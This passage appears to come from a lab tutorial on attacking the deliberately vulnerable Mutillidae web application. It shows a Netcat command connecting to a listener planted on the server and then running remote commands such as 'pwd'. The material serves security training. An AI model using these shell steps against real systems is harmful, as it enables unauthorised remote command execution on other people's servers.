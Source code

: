      ![Listener](./Images/shell.png)
   
2. Next, we'll open a connection to the listener on a vulnerable web server using Netcat from the attacker's machine.

   - `nc 172.16.203.141 4444`

      - `nc`: Runs Netcat.
      - `172.16.203.141`: IP address of Mutillidae (the vulnerable web server).
      - `4444`: Port of the listener.

      ![Reverse Shell](./Images/nc_listener.png)


   Leave the terminal window open. Now we can inject code into the vulnerable webpage.
   
   
3. Next, we'll test our exploit by running remote commands from the attack machine.
   
   - Run `pwd`.
   
     - Output should be similar to: `/owaspbwa/mutillidae-git`
   